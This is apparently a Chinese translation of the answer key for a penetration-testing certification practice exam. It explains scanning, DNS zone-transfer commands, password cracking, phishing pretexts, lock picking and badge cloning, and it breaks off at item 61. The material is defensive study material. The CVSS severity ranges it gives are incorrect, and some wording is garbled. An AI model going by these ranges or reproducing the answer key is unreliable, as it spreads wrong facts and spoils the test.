### 89. B. 因为在全漏洞扫描期间与每个主机都建立了完全连接，因此可以对它们进行彻底的问询和指纹识别。结果，全扫描通常会产生最准确的信息。然而，它们也最容易被防御者检测。

### 90. D. 合规性漏洞扫描用于验证目标组织是否符合特定法律或政策的要求。在本例中，PCI-DSS 渗透测试通常需要 PCI-DSS 合规性漏洞扫描。

### 91. D. 在白盒渗透测试期间列举目标网络时，你可能会收集到大量信息。例如，你可能想要列举网络上所有的子网、主机和域名。

### 92. D. 在白盒渗透测试期间列举目标网络时，你可能会收集到大量信息。例如，你可能想要列举任何可以发现的用户账户和组账户。你还想要列举任何可以识别的网络共享。

### 93. E. 在白盒渗透测试期间列举目标网络时，你可能会收集到大量信息。例如，你可能想要列举网络上使用的任何网页、应用程序、服务和令牌（tokens）。

### 94. C. 限制扫描使用最少带宽将显著减慢扫描过程。然而，这将使扫描对 IDS/IPS 设备的可见性降低，并为它们留出时间更彻底地对网络设备进行指纹识别。

### 95. B. 通过将扫描安排在上班人数少的时间段运行，你可以最大限度地减少对生产流量可用带宽的影响，还可以避免被内部网络管理员发现。

### 96. C. 你没有管理员凭据并不意味着你必须放弃列举和指纹识别，也不意味着你必须取消测试。相反，你可以尝试构造鱼叉式网络钓鱼攻击，欺骗内部用户暴露其登录凭据。

### 97. C. 因为你只扫描 Web 服务器，你可能可以将漏洞扫描限制在 Web 服务器常用的那些端口和协议。对所有端口和协议进行彻底扫描将花费多得的时间。

### 98. A and C. 从网络拓扑角度来看，PCI-DSS 标准要求你从内部和外部网络位置运行漏洞扫描。应该对两次扫描的结果进行比较以识别漏洞。

### 99. A. `nmap -T*n*` 选项用于指定时间模板，其中 `n` 是 0 到 5 之间的数字。数字越大，漏洞扫描越快；数字越小，扫描越慢。

### 100. C. 因为 T1 线路限制为 1.54 Mbps，你必须限制漏洞扫描使用的带宽。如果你不这样做，可能会很容易耗尽所有可用带宽，而不为关键业务操作留出任何空间。你可以使用 `nmap` 命令的 `-T*n*` 选项来限制扫描。由于连接的带宽较低，你应该考虑在 `nmap` 命令中使用 `-T2` 甚至可能是 `-T1` 选项。`-T0` 选项可能会对扫描限制得过头，导致花费不常的时间才能完成。

### 101. C. 因为服务器被认为是一个脆弱系统，你应该限制漏洞扫描使用的带宽。如果你不这样做，可能会很容易通过扫描耗尽服务器的所有资源，而不为关键业务操作留出任何空间。你可以使用 `nmap` 命令的 `-Tn` 选项来限制扫描。在这种情况下，你应该考虑在 `nmap` 命令中使用 `-T2` 甚至可能是 `-T1` 选项。`-T0` 选项可能会对扫描限制得过头，导致花费不常的时间才能完成。

### 102. A and E. 容器可以用于创建一个隔离的环境，就像虚拟机一样。因此，运行在容器环境中的任何应用程序可能无法被传统的漏洞扫描检测。与虚拟机不同，容器与容器主机共享大部分基础操作系统。因此，与容器主机基础操作系统相关的漏洞可能会被其容器继承。

### 103. A. 静态代码分析是通过分析应用程序的源代码进行的。显然，这种测试通常只在白盒渗透测试期间进行。静态代码分析不实际运行程序。相反，它侧重于分析应用程序是如何写的。

### 104. B and C. 动态代码分析以及模糊测试（fuzz testing）都是在运行的代码上进行的。由于执行这些测试不需要源代码，因此可以在灰盒或黑盒渗透测试期间进行。

### 105. B. 模糊测试涉及向程序的输入发送随机、意外或无效的数据，以测试它如何处理这些数据。这被称为 `异常处理`。许多攻击可以利用应用程序无法正确处理意外数据而部署。

### 106. C. 网联网电视是非传统系统的一个示例。这些设备被认为是脆弱的，因为它们在传统上很难管理，而且厂商更新频率较低。它们可能没有经过厂商广泛的安全测试。

### 107. B. 计算机控制的制造设备是非传统系统的范例。这些设备被认为是脆弱的，因为它们在传统上很难管理，而且厂商更新频率较低。它们可能没有经过厂商广泛的安全测试。

### 108. A and B. 可以使用 `dig axfr @nameserver target_domain` 或 `host -t axfr target_domain nameserver` 命令来执行区域传输。如果成功，你就可以获取目标网络内所有网络基础设施的详细列表。理想情况下，目标组织已在其 DNS 服务器上禁用了未经身份验证的区域传输。如果是这样，上述任一命令都会返回某种“传输失败”的错误信息。

### 109. A. `hping` 工具是渗透测试常用的数据构造工具。它允许制作几乎任何类型的数据包并发送到目标网络上的指定主机。分析主机如何响应可以为渗透测试的下一阶段提供价值信息。

### 110. A and C. 有目标组织用户的电子邮件列表，你可以进行任何数量的钓鱼攻击。你还可以利用电子邮件地址列举内部用户账户名。在许多（不是大多数）组织中，电子邮件用户名几乎与用户的账户名相同。


### 111. B. 主机极有可能运行 Windows。TCP 端口 `139`、`445` 和 `3389` 都常用于 Windows 文件共享服务。虽然这些端口也可能用于其他操作系统（例如运行着 `SMB` 守护进程的 Linux 系统），但它更有可能是一个 Windows 主机。

### 112. D. 主机可能是一个 Web 服务器。系统管理员可能已经将默认 Web 服务器端口更改为非标准端口，试图隐藏其功能。这是“通过隐蔽实现安全”的一个例子。

### 113. C. `-T` 选项配置了 `nmap` 运行漏洞扫描的速度。在这种情况下，子网可能非常巨大，拥有超过 1600 万个可能的 IP 地址。在如此大的子网上使用 `-T0` 选项运行 `nmap` 将花费很长时间才能完成。

### 114. A. Whois 可能会揭示关于目标组织的大量信息，包括以下：
- 域名注册商
- 注册者的法律名称
- 注册者的地址
- 注册者的电话号码
- 联系邮箱地址
- 域名管理员名称
- 一些组织要求其注册商向公众隐藏这些信息

### 115. C. 在这种情况下，正在进行黑盒渗透测试。根据定义，测试人员位于目标网络之外某处。因此，她必须先攻破内部主机。完成后，她可以进行转向并使用它扫描其他内部主机。

### 116. D. SCADA 制造设备通常比传统的网络资产（如服务器和路由器）脆弱得多。它们往往难以管理、更新和防止受漏洞攻击。因此，它们也容易受到漏洞扫描的影响，并在扫描过程中可能会离线。

### 117. A. 你可以最有效地运行漏洞扫描的时间窗口受合规要求、流量高峰期和硬件限制的影响很大。另一方面，内部 IT 人员可能不会参与渗透测试期间的漏洞扫描。

### 118. B. 这种情况下正在进行静态代码分析（也称为 `source code analysis`）。在此类测试中，测试人员访问应用程序的源代码并检查是否存在可能被利用的弱点。显然，测试人员必须具有深厚的编程背景才能进行此类审查。

### 119. A. 当测试人员向应用程序的输入发送随机、意外的信息以观察其响应时，就会发生模糊测试（Fuzzing）。例如，测试人员可以尝试发送包含可执行代码的巨大输入来尝试缓冲区溢出攻击。如果应用程序未能正确处理恶意输入，可执行代码可能会存储在目标系统的 `RAM` 中，攻击者随后便可以执行它。

### 120. C. 因为这是一个任务关键型服务器，在扫描活动系统之前，在实验室环境中运行测试扫描可能是一个好主意。这将帮助测试人员在活动系统上运行扫描之前评估扫描将产生的影响。

### 121. C. 服务器管理员没有续其安全证书的事实表明他们没有很关注这台服务器。这使得该系统成为一个易被攻破的目标，因为可能存在管理员也忽视了的其他因素（如更新）。

### 122. E. 漏洞扫描期间收集的信息可以以许多方式进行分类。例如，根据操作系统对信息进行分类可能是合适的，因为不同的 `OSs` 有不同的固有漏洞。根据每个关联资产的价值对信息进行分类也是合适的。例如，与任务关键数据库服务器相关的漏洞价值远高于与终端用户桌面系统相关的漏洞。你还可以根据发现的漏洞数量或严重程度对扫描结果进行分类。

### 123. A. 最可能的是漏洞扫描器产生了一个误报（false positive）。漏洞扫描后判定过程的目的是确定扫描结果的价值和有效性。误报，例如本场景中讨论的，应该在给客户的最终报告中过滤掉。

### 124. A and D. 在这种情况下，攻破存在漏洞的域控制器或数据库服务器的价值远高于攻破终端用户的漏洞工作站。例如，攻破域控制器可能会暴露多个用户账户。同样，攻破数据库服务器可能会暴露贵的公司信息。另一方面，缺少 Windows 功能更新带来的暴露可能很小。同样，`Linux` 即使在较旧的发行版上也提供较高程度的安全性。

### 125. A. 任何小于 `4.0` 的 `CVSS` 分都被认为是低风险类别。因此，`3.8` 的 `CVSS` 分表示这是一个低风险漏洞。

### 126. D. 任何 `10.0` 或更高的 `CVSS` 分都被认为是严重风险类别。因此，`10` 分的 `CVSS` 分表示这是一个严重漏洞。

### 127. B. 任何在 `4.0` 到 `6.0` 之间的 `CVSS` 分被认为是中等风险类别。因此，`5.3` 的 `CVSS` 分表示这是一个中等风险漏洞。

### 128. C. 任何在 `6.0` 到 `10.0` 之间的 `CVSS` 分被认为是高风险类别。因此，`7.2` 的 `CVSS` 分表示这是一个高风险漏洞。

### 129. B and C. 对于缺失更新这一共同问题，你的第一个反应是调查这是否产生了你可以在以后渗透测试中利用的漏洞。然后，你应该记录缺失更新的共同问题，以便客户可以更新他们的最佳实践。

### 130. A. 对观察到服务器过时的首要反应是调查这是否创建了你可以在以后渗透测试中利用的漏洞。然后，你应该在最终报告中建议客户升级他们的服务器。

### 131. A and B. 对于客户缺乏最佳实践，你的第一个反应是在之后的渗透测试中利用默认用户名和密码攻击设备。然后，你应该在最终报告中建议客户采用更好的最佳实践。

### 132. A and D. 与其购买 Windows 系统，你可以简单地在你的 `Linux` 系统上创建利用代码，然后交叉编译该代码使其能够在 Windows 系统上运行。有各种 `Linux` 工具可以为你完成这项工作。

### 133. B and D. 在这种情况下，你首先将扫描发现的漏洞映射到可能的利用程序。然后你修改了这些利用程序以适应旧的服务器操作系统。

### 134. C. 在这种情况下，你将多个利用程序链接在一起以攻破目标系统。这被称为漏洞链（exploit chaining）。

### 135. B. 在这种情况下，你需要在实际攻击目标服务器之前测试修改后的漏洞，以确保它有效且不会产生意外后果。实现此点的有效方法是使用你的枚举信息在实验室环境中重新创建目标系统的虚拟机，并测试修改后的漏洞。这一过程被称为概念证明开发（proof-of-concept development）。

### 136. A and C. 在这种情况下，你利用欺骗和社交工程进入了目标组织的物理网络。


### 137. C. 凭据暴力破解（Credential brute forcing）是一个一个一个尝试密码，直到最终命中正确密码的过程。这可以针对用户账户或其他安全系统执行，例如使用预共享密钥（PSK）的 WPA2 无线网络。

### 138. D. 字典攻击是暴力破解攻击的一种。然而，在字典攻击中，会使用一个常用密码列表一个接一个地尝试，试图找到正确的密码。

### 139. A. 彩虹表（Rainbow table）包含一组常用密码的预计算哈希值列表，可用于离线密码文件破解。

### 140. A and B. 工业控制系统（ICSs）和监控控制数据采集系统（SCADA）通常用于工厂自动化设备和环境控制。它们倾向于运行在旧的操作系统上，且其软件/固件更新频率非常低。这可能使得此类系统更容易受到安全漏洞攻击。它们通常也非常脆弱，因此在使用漏洞扫描器对其进行扫描时要加小心。

### 141. B and E. 移动设备是现代网络中一个巨大的安全弱点。在与移动设备相关的许多问题中，渗透测试人员应该注意到的两点是：它们倾向于以不一致的方式更新。这在 Apple 设备上不是什么问题，因为它们控制着硬件和软件。然而，这对于 Android 设备来说是一个重大问题。如果你检查一组 Android 设备的更新级别，可能会发现没有两个是相同的。此外，某些用户会对设备进行根（root）或越狱（jailbreak），以便在受批准的商店渠道之外安装应用。这使得这些设备容易受到恶意软件的影响。

### 142. D and E. 物联网（IoT）设备，如智能家电、电视等，往往具有最弱的固有安全性。它们在设计时没有考虑安全性，难以管理，且厂商很少发布安全更新。用于工业控制设备的嵌入式设备往往也存在同样的弱点。

### 143. C and D. 在此场景中，POS 系统最大的风险是它们暴露在互联网上，并且运行着不支持的（因此极易受到攻击）操作系统。客户应该将 POS 系统隔离在自己的子网中，使其离开互联网。他们还应该将硬件和软件升级到较新版本，以消除运行古旧操作系统的风险。

### 144. A. 生物识别指纹读取器最大的安全风险是它们可能被虚假指纹欺骗。在几年前电视节目《终极破解》（MythBusters）的一集中，演员们通过从杯子上提取授权用户的指纹，击败了指纹读取器。在此场景中，你可能建议客户升级到面部识别认证系统，因为该系统已被证明更难欺骗。

### 145. A. 物联网（IoT）是指连接到互联网的物理产品和设备网络。制造商和开发者希望尽可能降低成本以增加利润。因此，安全性往往不是产品或设备的关键特性。所以，就如网络上的任何其他设备一样，物联网设备可能存在安全漏洞，并可能受到基于网络的攻击。

### 146. D. 21 端口用于 `TCP` 和 `FTP`，并作为控制端口。80 端口用于 `TCP` 和 `HTTP`，用于传输网页。443 端口用于 `TCP`、`HTTPS`，它是基于 `TLS/SSL` 的 `HTTP`，用于加密传输。

在此场景中，渗透测试人员发现的所有端口都与 Web 有关。

因此，此问题的答案是，敏感信息可能会在 Web 服务器上泄露，因为这些是漏洞扫描期间指示的端口。

### 147. B. 发现扫描（Discovery scan）识别网络上运行的操作系统，将这些系统映射到 IP 地址，并列出这些系统上的开放端口和服务。

### 148. D. 凭据扫描（Credentialed scans）需要对目标服务器具有读取权限。客户应遵循最小权限原则限制访问。发现扫描为渗透测试人员提供了一种自动化方法，来识别网络上的主机并构建资产清单。

### 149. D. 代码测试通常使用静态代码分析结合模糊测试（fuzzing）和故障注入（fault injection）等方法。一旦对代码进行了更改并部署，就必须重新测试以确保没有产生新的安全问题。由于我们只审查代码，我们将进行静态代码分析。静态代码分析也称为源代码分析，是通过审查代码完成的，它可以被视为白盒测试的一种，具有完全的可见性。由于静态分析使用源代码，它能够发现人员发现其他测试无法发现的问题。

### 150. B. `dsquery.exe` 是一个命令行工具，用于查询活动目录中各种对象的信息。该工具在所有 Windows 版本中默认可用。`dsquery` 命令允许你查询 LDAP 目录以查找符合标准的对象。作为 `dsquery` 命令的一个属性，你需要指定要搜索的 AD 对象类型。在此场景中，你正在寻找过去 30 天未活跃的用户账户，因此你会使用 `dsquery user -inactive <周数>`。

### 151. D. 任务的时间线和可以测试的时间对观察和测试客户系统的影响最大。某些评估将安排在非关键时间段进行，以减少对潜在停机的影响，而另一些可能会安排在正常工作时间内进行，以测试组织对攻击的反应。

### 152. D. 误报（False positive）是指系统错误地将生物识别样本接受为匹配。生物识别传感器有时会由于多种原因出错。识别过程是将呈现系统的生物特征（如指纹或虹膜扫描）与数据库中的所有条目进行对比以匹配。这被称为“一对多”搜索。活生物特征会随年龄、气候或手指可能受伤而变化。厂商将这些阈值设置称为假接受率（FAR）和假拒绝率（FRR）。

### 153. C and E. 合规性扫描（Compliance scanning）专注于应用于系统的配置设置或安全加固。对单个计算系统执行合规性扫描时，它会生成报告，定义系统针对所选合规框架的加固程度。合规性扫描并非旨在发现软件应用程序或操作系统的漏洞，而是旨在发现和评估系统加固配置中的漏洞。在此场景中，由于你在网络上看到的资产比网络架构中提供的多，你可以将其归因于网络访问或存储访问受限。


### 154. D. SNMP 暴力破解攻击通过 SNMP 查询对 IP 地址进行攻击，以确定 SNMP 只读和读写社区字符串（或密码）。它是通过尝试所有可能的密码来实现的。由 SNMP 创建的主信息库（MIB）数据库包含了网络上每个设备的重要信息。如果测试人员能够破解 SNMP 密码，他们就可能控制每个网络设备。这允许对配置进行更改，甚至让设备脱离线。

### 155. A. 字典攻击是一种通过详尽地输入字典中的每个单词作为密码来破入受密码保护的计算机或服务器的方法。字典攻击之所以有效，是因为许多计算机用户使用普通单词作为密码。字典攻击依赖于预构建的词汇字典。在许多情况下，渗透测试人员可以根据知识为渗透测试字典文件添加额外的特定条目，这在执行字典攻击时非常有益。在这种场景下，渗透测试人员利用社交媒体寻找对字典攻击有益的额外关键词。

### 156. C. 在这种场景下，由于客户员工使用字典单词作为密码，击败它们的最佳方法是增加密码长度并添加特殊字符。密码中使用的特殊字符是标准美国键盘上存在的标点符号。这些包括 `!"#$%&’()\*+,-./:;<=>?@\[\\\]^_’{|}~`。这将使攻击者更难破解客户的系统。

### 157. C. 全扫描将为你提供更有有用的结果，因为它包含了更多的测试。场景中并没有要求测试人员避免被发现，因此没有进行隐身扫描。但由于这是黑盒测试，最好在网络上运行全扫描。

### 158. D. 被动扫描是一种漏洞检测方法，它依赖于从目标计算机中捕获的网络数据中获取信息，而无需进行直接交互。对于攻击者来说，被动扫描的主要优势是它不会留下可能提醒用户或管理员的轨迹。对于管理员来说，主要优势是它不会在目标计算机上引起意外行为。被动扫描确实有局限性。它在细节上没有主动漏洞扫描完整，并且无法检测当前未发送流量的应用程序。

### 159. A. 凭据扫描是指扫描计算机在被扫描计算机上拥有账户，这允许扫描器进行更彻底的检查，寻找可能从网络无法看到的问题。凭据扫描广泛用于企业漏洞管理计划，是执行渗透测试时非常有用的工具。凭据扫描可以访问操作系统、数据库和应用程序。凭据扫描通常只从目标服务器检索信息，而不对服务器本身进行更改。

### 160. B. 误报是某些评估过程中的错误，其中测试条件被错误地认为已被检测。扫描器可能没有足够的权限访问目标系统来确认漏洞，或者其生成错误漏洞报告的插件可能存在错误。当扫描器报告不存在的漏洞时，这被称为 `false positive error`（误报错误）。

### 161. D. 交叉编译代码用于目标平台位于不同架构的情况。测试人员可能无法访问目标机器上的编译器，或者可能需要从主工作站为漏洞程序编译代码，而工作站的架构与目标机器不同。

### 162. A and B. 彩虹表通过查找而非尝试暴力破解，提供了一种攻击哈希密码的强大方法。彩虹表是针对一组特定密码要求的、所有可能的密码的预计算列表，然后根据已知的哈希算法（如 `MD5`）进行哈希处理。彩虹表用于反向攻击哈希密码。彩虹表通常是离线攻击。它使用的计算周期比任何其他形式的攻击都少。暴力破解攻击尝试使用尝试错误法破解密码或用户名，攻击者提交许多密码或短语，以获得最终猜对密码的机会。

### 163. A. 彩虹表是针对一组特定密码规则的所有可能的密码的预计算哈希值列表。彩虹表工具将哈希值与之前计算的哈希值进行比较，并匹配到已知密码值。这是通过相当快的数据库查找实现的，从而允许“破解”哈希密码，尽管哈希值是不可逆的。密码文件是哈希值的列表。

### 164. D. 开源情报 (OSINT) 工具和技术是指通过公开可用信息来获取组织和技术细节的方法，这些细节在渗透测试期间可能被证明是有用的。OSINT 是可以轻松收集的信息。OSINT 通常用于确定组织的足迹，这包括一个组织拥有的所有系统、网络和其他技术的列表。

### 165. B. Nessus 是一种商业漏洞扫描工具，用于扫描各种设备，不属于 OSINT 收集工具范围。有多种工具可以协助此类 OSINT 收集：

*   `Censys` 是一种基于 Web 的工具，探测整个互联网的 IP 地址，然后通过搜索引擎让渗透测试人员访问这些信息。
*   `Fingerprinting Organizations with Collected Archives (FOCA)` 是一种开源工具，用于查找 Microsoft Office 文档、PDF 和其他常见文件格式中的元数据。
*   `Maltego` 是一种商业产品，协助可视化从 OSINT 工作收集的数据。
*   `Nslookup` 工具有助于识别与组织相关的 IP 地址。
*   `Recon-ng` 是一个模块化的网络侦察框架，用于组织和管理 OSINT 工作。
*   `Shodan` 是一个专门的搜索引擎，用于从公共来源发现易受攻击的物联网 (IoT) 设备。
*   `theHarvester` 搜寻搜索引擎和其他资源，以查找组织的电子邮件地址、员工姓名和基础设施详情。
*   `Whois` 工具从公共记录中收集有关域名所有权的信息。

### 166. B. 计算机应急响应小组 (CERT) 专注于安全违规和拒绝服务事件，提供警报以及事件处理和避免指南。CERT 还开展了持续的公众意识活动，并从事旨在改进安全系统的研究。

### 167. A. 常见攻击模式枚举与分类 (CAPEC) 列表是一项旨在识别和记录攻击及攻击模式的资源。用户允许根据机制或领域搜索攻击，然后通过各种属性和先决条件分解每种攻击。CAPEC 还提了解决方案和缓解措施，这在编写渗透测试报告时识别控制措施非常有用。

### 168. D. 在渗透测试期间，测试人员可能希望配置其扫描作为隐身扫描运行，隐身扫描会尽力避免使用可能引起注意的测试。扫描引起的服务中断、错误消息和日志记录可能会引起安全团队的注意，导致他们调整防御以阻碍渗透测试。使用隐身扫描能模拟熟练攻击者的活动，从而产生更真实的渗透测试结果。


1. **A.** 在此场景中使用了钓鱼攻击（Phishing attack），因为恶意邮件无差别地发送给了组织内的所有员工。

2. **C.** 在此场景中使用了鱼叉式钓鱼攻击（Spear phishing attack），因为恶意邮件是专门为特定员工定制的。相比之下，通用的钓鱼攻击会无差别地发送给组织内的大群员工。

3. **D.** 捕鲸者攻击（Whaling attack）本质上是鱼叉式钓鱼攻击的一种形式，专门针对 C 级高管人员，例如 CEO、CFO、COO、CIO 等。相比之下，标准的鱼叉式钓鱼攻击会发送给组织内级别较低的员工。

4. **B.** 在此场景中使用了短信钓鱼攻击（也称为 `smishing` 攻击）。`smishing` 攻击利用短信而非电子邮件来实施钓鱼利用。

5. **B.** 在此场景中使用了语音钓鱼攻击（也称为 `vishing` 攻击）。`vishing` 攻击利用电话而非电子邮件来实施钓鱼利用。本质上，攻击者通过给特定员工打电话并伪装成其他人以获取信息。

6. **D.** 审讯（Interrogation）涉及对目标组织的员工进行质问，以恐惧作为动机来收集信息。审讯不是渗透测试人员通常使用的技术。

7. **A.** 身份伪装（Impersonation）是一种社会工程技术，渗透测试人员可以使用它来获取目标设施的物理访问。在此场景中，接待员允许测试人员进入组织的设施，因为该测试人员看起来来自一个受信任的供应商。

8. **A and E.** 身份伪装是一种社会工程技术，渗透测试人员可以使用它来获取目标设施的物理访问。在此场景中，接待员允许测试人员进入组织的设施，因为测试人员看起来来自一个受信任的供应商。测试人员还使用了诱导技术（Elicitation）从员工处收集敏感信息。

9. **A and C.** 身份伪装是一种社会工程技术，渗透测试人员可以使用它来获取目标设施的物理访问。在此场景中，接待员允许测试人员进入组织的设施，因为测试人员看起来来自一个受信任的供应商。测试人员还使用了窥视屏幕（Shoulder-surfing）技术从员工处收集敏感信息。

10. **C and E.** 身份伪装是一种社会工程技术，渗透测试人员可以使用它来获得目标组织员工的信任。在此场景中，员工信任了测试人员，因为邮件看起来来自另一位员工。测试人员利用这种信任从那些员工那里获取敏感信息。这有时被称为业务邮件劫骗（`business email compromise`）。

11. **B.** 在 USB 盘投放利用（USB key drop exploit）中，通常会将某种恶意软件加载到闪存器上。然后，该驱动器被刻意留在目标组织的员工可能会发现的地方。其目的是让员工插入它以查看包含的内容。当这种情况发生时，恶意软件会自动加载到受害者的计算机上。

12. **A.** 在标准的钓鱼利用中，邮件信息无差别地发送给大量个人，希望其中一部分人点击消息中包含恶意链接。

13. **C.** 短信钓鱼攻击（也称为 `smishing` 攻击）利用短信而非电子邮件来实施钓鱼利用。

14. **A.** 语音钓鱼攻击（也称为 `vishing` 攻击）利用电话而非电子邮件来实施钓鱼利用。本质上，攻击者通过给特定员工打电话并伪装成其他人以获取信息。

15. **A and D.** 鱼叉式钓鱼和捕鲸攻击都需要渗透测试人员进行广泛的研究，以识别组织内部的高价值目标个人。

16. **A.** 审讯涉及对目标组织的员工进行质问，以恐惧作为动机来收集信息。审讯不是渗透测试人员通常使用的技术，因为它可能会导致对测试人员的刑事指控。

17. **B and D.** 身份伪装是一种社会工程技术，渗透测试人员可以使用它来获取目标设施的物理访问。在此场景中，接待员允许测试人员进入组织的设施，因为测试人员看起来来自一个受信任的供应商。测试人员还使用了 USB 盘投放利用，希望用户将其插入计算机并安装其中的恶意软件。

18. **C.** 渗透测试人员在此场景中使用了窥视屏幕（Shoulder-surfing）技术。在窥视过程中，测试人员观察员工在计算机上输入或显示的信息，以获取用户名、密码、电子邮件地址等。

19. **D and E.** 渗透测试人员在此场景中使用了窥视屏幕和业务邮件劫骗（Business email compromise）技术。在窥视过程中，测试人员观察员工在计算机上输入或显示的信息，以尝试获取用户名和密码。然后，测试人员利用被劫持的账户从其他员工处获取信息。这被称为业务邮件劫骗。

20. **B.** 这是一个诱导（Elicitation）的示例。通过获得员工的信任，测试人员能够从他们那里获取有关雇主的敏感信息。

21. **A.** 渗透测试人员在此示例中伪装成高级经理，利用权威性强制员工泄露敏感信息。

22. **D.** 渗透测试人员在此示例中伪装成 FBI 探员，利用权威性（可能还有恐惧）作为动机因素强制员工泄露敏感信息。

23. **B.** 渗透测试人员在此场景中伪装成陷入困境的同事，利用紧迫性促使员工提供用户名和密码。她可能还利用亲和力（Likeability）作为一种因素。

24. **A.** 渗透测试人员利用社会认同（Social proof）作为动机因素。由于看起来有超过 1000 人对该网站有良好的体验，大多数员工可能会信任该网站，即使它要求他们泄露敏感信息。

25. **D.** 渗透测试人员利用稀缺性（Scarcity）作为动机因素。通过声称以大幅折扣提供的设备数量有限，员工受促在供应耗尽前进行购买。

26. **D.** 渗透测试人员利用相似性（Likeness）作为动机因素。通过雇佣年轻、友好且外貌出色的助理，渗透测试人员能够迫使目标组织的员工透露有关其雇主的敏感信息。

27. **A.** 渗透测试人员利用恐惧作为动机因素。无论该指控真假，CFO 都知道这种披露可能会损害他的家庭和职业。它还可能使他面临起诉。这可能会激励他泄露敏感信息。

28. **C.** 渗透测试人员利用权威（可能还有紧迫感和恐惧）作为动机因素。销售代表可能倾向于建立 VPN 连接，以防止所谓的客户客户损失。


### 29. B. 渗透测试人员正在使用紧迫感（可能还包括相似性）作为激励因素。员工可能会因为渴望被视为“团队合作者”而顺从请求。通过事先进行侦察并识别出组织中真实销售代表的姓名，这种攻击可以变得更加有效。

### 30. A and B. 在这个用例中，渗透测试人员使用了两个激励因素。她将紧迫感和社交认同作为激励因素。由于这是一笔巨大的订单，员工可能会感到一种配合的紧迫感。渗透测试人员还通过提到一位熟悉的同事的名字利用了社交认同。这可能有助于员工在向渗透测试人员提供其用户名和密码时感到更加从容。

### 31. C. 当人们相信他们想要的东西供应有限时，他们就会被激发快速采取行动的动力。这被称为`稀缺性`。他们不想错过很快将无法提供的机会、产品、交易或服务。

### 32. A. 当人们认为其他人都在做同样的事情时，他们就会被激发采取行动的动力。这被称为`社交证明`。这种（错误的）假设是，如果其他人都在做某事，那么它必须是正确的事。

### 33. C. 人们天生会对权威产生尊重并产生动力。当他们相信权威人士想要他们做某事时，他们通常会顺从，特别是当该请求伴随着紧迫感时。

### 34. B. 许多人天生具有帮助处于困境他人的动力。这被称为`紧迫感`。当他们相信某人需要帮助时，他们可能会违背或打破规则来帮助那个人。

### 35. A. 大多数人会帮助他们认为是朋友的人。这被称为`相似性`。当他们认为是朋友的人需要帮助时，他们可能会违背或打破规则来帮助那个人。

### 36. B. 如果人们被要求担心不行动将导致的后果，他们就会对行动的请求做出反应。这是人类最基本的动力之一。

### 37. A. 尾随（Piggybacking）是指入侵者跟随授权人员通过一个物理屏障，例如锁住的门或闸机。这种情况发生在授权人员不知情或未经其同意的情况下。

### 38. B. 尾随（Tailgating）是指入侵者跟随授权人员通过一个物理屏障，例如锁住的门或闸机。这种情况发生在授权人员知情和/或经许可的情况下。

### 39. A. 尾随（Piggybacking）是指入侵者跟随一个或多个授权人员通过一个物理屏障，例如锁住的门或闸机。这种情况发生在授权人员不知情或未经其同意的情况下。

### 40. D. 翻越栅栏（Fence jumping）是指未经授权的人员直接跳过旨在控制访问的物理屏障。在这种场景中，渗透测试人员直接跨过了旨在防止未经授权人员进入的闸机。

### 41. A. 翻垃圾桶（Dumpster diving）是指攻击者搜寻目标组织的垃圾以寻找敏感信息。

### 42. A. 由于服务器房受一种相对简单的锁定机制保护，假设渗透测试人员拥有必要的开锁技能，他就可以开锁进入。请注意，这必须在没有监控或人流量的区域进行，因为完成这一过程可能需要一些时间。

### 43. B. 绕过锁（Lock bypass）是指攻击者阻止门的锁定机制工作。例如，这可以通过在锁扣上贴胶带来实现，正如本场景所示的那样。

### 44. D. 绕过出口传感器（Egress sensor bypass）是指攻击者操纵出口传感器来解锁门。在这种场景中，来自空气尘器喷出的移动压缩空气比周围空气冷得多且密度大，导致出口传感器认为有人正在离开建筑并解锁门。

### 45. C. 门卡克隆（Badge cloning）是指攻击者复制有效的门禁卡以进入设施。通过复制有效门卡的`RFID signature`，此场景中的渗透测试人员可以使用伪造门卡，利用授权员工的凭据访问目标组织的设施。

### 46. B. 尾随（Tailgating）是指入侵者跟随授权人员通过一个物理屏障，例如锁住的门或闸机。这发生在授权人员知情和/或经许可的情况下。在这个例子中，授权员工为渗透测试人员扶着开了门。

### 47. A. 尾随（Piggybacking）是指入侵者跟随一个或多个授权人员通过一个物理屏障，例如锁住的门或闸机。这种情况发生在授权人员不知情或未经其同意的情况下。

### 48. D. 翻越栅栏（Fence jumping）是指未经授权的人员直接跳过或剪断旨在控制访问的物理屏障。在这种场景中，测试人员通过在栅栏上开一个洞穿了物理栅栏障碍。

### 49. A. 翻垃圾桶（Dumpster diving）是指攻击者搜寻目标组织的垃圾以寻找敏感信息。

### 50. C and D. 至少，你需要一个弹轮和一个拨子工具来开锁。弹轮用于对锁施加旋转压力（解锁方向）。拨子工具用于释放锁内的每个弹子。

### 51. B. 绕过锁（Lock bypass）是指攻击者阻止门的锁定机制工作。在这个例子，这是通过在门框上放置木楔实现的，使门无法完全关闭并导致锁定无法无法。

### 52. A. 大多数自动锁系统都有某种紧急开启机制。这种背后的理念是，如果发生了某种紧急情况（如火灾），门必须自动解锁以防止人员被困或防止救援人员进入。如果你能确定使用的是哪种开启机制，你可能可以手动触发它打开门。

### 53. B and D. 在此场景中，通过翻垃圾桶找到了丢弃的门禁卡。然后通过门卡克隆制作了伪造卡。

### 54. D. 门卡克隆（Badge cloning）是指攻击者复制有效的门禁卡以进入设施。通过复制有效门卡的`RFID signature`，此场景中的渗透测试人员可以使用伪造门卡，利用授权员工的凭据访问目标组织的设施。由于他仔细选择了高级员工的卡进行克隆，他可能访问设施内更敏感的区域。

### 55. A. NetBIOS 是 Windows 系统共享资源（如共享文件夹或打印机）的传输协议。一旦攻击者识别出设备端口 139 开放，就可以使用 `NBTSTAT` 对设备进行指纹识别。例如，你可以发现计算机名称并识别它是工作站还是服务器。所有这些信息都可以在无需认证的情况下获取。

### 56. A. `NBTSTAT` 识别 ID 为 `<20` 的 NetBIOS 服务器。根据输出，你确定 DEV-1 可能是 Windows 服务器（或运行 Samba 服务的 Linux 服务器）。

### 57. B. `NBTSTAT` 识别 ID 为 `<00` 的 NetBIOS 工作站。根据输出，你确定 PROD-9 可能是 Windows 工作站（或运行 Samba 服务的 Linux 工作站）。

### 58. A and E. `LLMNR` 协议松散基于 DNS 数据包格式，允许 IPv4 和 IPv6 主机在没有 DNS 服务器的情况下，对本地局域网内的主机进行名称解析。Windows 和 Linux 主机都支持该协议。


### 59. B 和 C
`LLMNR` 协议存在许多安全漏洞，在渗透测试中可以被利用。例如，它缺乏身份验证等安全控制。由于由于，网络上的恶意主机可以宣布它想要的任何主机。

### 60. A 和 C
`Server Message Block` (`SMB`) 协议用于在网络主机之间共享文件和打印机。

### 61. D 和 E
